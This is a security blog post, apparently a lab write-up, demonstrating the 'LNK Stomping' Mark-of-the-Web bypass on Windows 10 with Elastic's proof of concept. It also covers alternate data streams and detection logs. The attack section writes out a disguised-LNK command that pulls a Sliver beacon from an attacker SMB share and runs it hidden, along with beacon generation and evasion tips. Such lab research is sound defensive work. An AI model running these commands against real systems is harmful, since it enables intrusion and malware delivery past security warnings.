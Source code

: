 ```yaml
---
title: "LNK Stomping"
date: 2024-09-04T17:17:01-06:00
draft: false
---
```



This [PoC provided by Elastic](https://github.com/joe-desimone/rep-research) is about LNK Stomping. Currently Microsoft has not provided a CVE for this method; however, they did release CVE-2024-38212, a MotW bypass vulnerability, but only included SmartScreen, not Smart App Control (SAC). As this testing is done on Windows 10 with build number 19045, I won't be dealing with SAC anyway. The PoC can bypass both.

*Update: This vulnerability is now tagged as CVE-2024-38217

A quick primer on MotW from Elastic:
> When a user downloads a file, the browser will create an associated “Zone.Identifier” file in an [alternate data stream](https://www.digital-detective.net/forensic-analysis-of-zone-identifier-stream/) (ADS) known as the Mark of the Web (MotW). This lets other software (including AV and EDR) on the system know that the file is more risky. SmartScreen only scans files with the Mark of the Web. SAC completely blocks certain file types if they have it. This makes MotW bypasses an interesting research target, as it can usually lead to bypassing these security systems. Financially motivated threat groups have discovered and leveraged [multiple vulnerabilities](https://blog.google/threat-analysis-group/magniber-ransomware-actors-used-a-variant-of-microsoft-smartscreen-bypass/) to bypass MotW checks. These techniques involved appending crafted and invalid code signing signatures to javascript or MSI files.

I explained what an ADS is in a previous post [T1564.004](https://axelarator.github.io/posts/ntfs/)
> A data stream that is alternate to the normal data stream. The data attribute (`$DATA`) is called the “normal” data stream or “unnamed” data stream since it can be left blank.
>     - A normal data stream looks like `$DATA:""`
>     - An alternate data stream can be `$DATA:"SecondStream"`
> - To read what’s inside an ADS
>     - `Get-Item -path <file> -stream *`
>     - `Get-Content -path <file> -stream <stream name>`
> - To add streams to a file
>     - `set-content -path <path> -stream <stream name>`
> - To search for ADS
>     - `gci -recurse | % { gi $_.FullName - stream * } | where stream -ne ':$Data'`
> - To remove ADS
>     - `remove-item -path <path> -stream <stream name>`
> - A sysinternals tool called `streams.exe` can also enumerate streams
>     - `streams <file path>`

To provide a more visual explanation, taking the PoC GithHub repo above, you can view the data streams within the ZIP file (`Get-Item`) and view the contents to see where it came from (`Get-Content`). I downloaded the ZIP directly because cloning the repo only provides a `$DATA` stream. The Git client simply does not have a Zone.Identifier ADS which can also be treated as a way to bypass MotW. 
![1.png](/lnkstomping/1.png)

What's interesting from the first screenshot is the inclusion of a SmartScreen data stream. This is a stream that provides an additional hook into the registered AV engine.

![3.png](/lnkstomping/3.png)

SysInternals also includes a tool if that command is too annoying to type out. The caveat being you can't view the content.
https://learn.microsoft.com/en-us/sysinternals/downloads/streams

![4.png](/lnkstomping/4.png)

Now rather than just using a different file type like an ISO embedded within a ZIP archive, something [Black Basta](https://www.trendmicro.com/en_us/research/22/j/black-basta-infiltrates-networks-via-qakbot-brute-ratel-and-coba.html) and numerous other threat actors have done in the past, Elastic uncovered another trivial way of evading MotW by using LNK files with non-standard target paths or internal structures. When the file is clicked, `explorer.exe` modifies the file with canonical formatting, removing the MotW label. 
In this example, I used the dot variant which appends a dot after the PowerShell executable so it looks like `~\powershell.exe.` 

```python
python lnk_stomping.py --executable c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe --arguments "-c calc" --icon folder --variant dot --output totally_legit.lnk
```

The `--icon` argument argument can either make the LNK file to appear as a folder or pdf icon. An [obfuscation method](https://attack.mitre.org/techniques/T1027/012/) threat actors use to make their files appear legit.

![5.png](/lnkstomping/5.png)

Using Eric Zimmerman's tool LECMD, the path with the dot operator can be seen
![6.png](/lnkstomping/6.png)

Since all of this was done locally, testing if it evades MotW won't work since it was never applied in the first place. Instead, I hosted this file elsewhere and download it to my Windows system and you can see below the Zone.Identifier stream attached. If you're wondering why the filename changed, the GitHub repo hosts sample files already configured with dot, path segment, and relative variants. Each of them can be recreated anyway using the Python script and supplying the appropriate variant you want to test.

![7.png](/lnkstomping/7.png)

Following execution with a successful `calc.exe` process opened, the stream is gone!
![8.png](/lnkstomping/8.png)

Viewing the LNK via LECMD again confirms Windows Explorer did indeed modify the file to fix the trailing dot.
![9.png](/lnkstomping/9.png)

### Attack Scenario

To put a little more effort into this, I modified the arguments to download a remote file and execute it to gain a Sliver beacon. I'm not trying to win any awards for defense evasion or command obfuscation but you could simplify this a bit with `psexec`. However, since `psexec` is a part of the Sysinternals suite, it would rely on the victim already having it installed which in this case isn't realistic. 

`-c net use \\192.168.98.108\kalishare /USER:anon anon; copy \\192.168.98.108\kalishare\READY_CANAL.exe; powershell.exe -WindowStyle hidden .\READY_CANAL.exe" --icon pdf --variant dot --output sliver.lnk`

The command starts by connecting to an SMB share running on the attacker system with credentials anon:anon. 

![10.png](/lnkstomping/10.png)

Next, it copies the Sliver beacon to the victim's current working directory. But in order to copy a beacon, one has to be created first. Within the sliver terminal:

`generate beacon -b 192.168.98.108 --skip-symbols --debug -j 5 -S 15 --os windows`

Without providing a name, it will create a randomly generated one which in this case is `ROYAL_CANAL.exe`. Better opsec would be to rename this as a process already present on Windows, like `svchost.exe`. It won't totally evade detection as Sliver is very well known and Windows Defender signatures will flag and purge this instantly, but it's a start. Next steps would be to implement something like [PEzore](https://iwantmore.pizza/posts/PEzor.html)

So with a beacon payload generated and an SMB share running, the last step is to start an HTTPS listener so the beacon has something to connect back to.

![11.png](/lnkstomping/11.png)

Everything's ready so it's time to execute! Following execution, Sliver got a callback. 
![12.png](/lnkstomping/12.png)

From here, it's up to the features of Sliver and any additional tools within the Armory to carry out further attacks. If noise is what you're after, you could run `seatbelt -i -- -group=system` to dump everything about the current system. Mainly Event ID's 4798 (group-membership-enumerated) and 4799 (user-member-enumerated). 
Since this is an HTTPS beacon, you'll see a lot of Sysmon event ID 3 ( Network connection detected) logs too for each task and check-in. 

For this lab, the user account is vulnerable by default and a part of the Administrators group so owning the system is quite easy.

![13.png](/lnkstomping/13.png)

### References
https://www.elastic.co/security-labs/dismantling-smart-app-control
https://github.com/joe-desimone/rep-research
https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/
https://unprotect.it/technique/mark-of-the-web-motw-bypass/
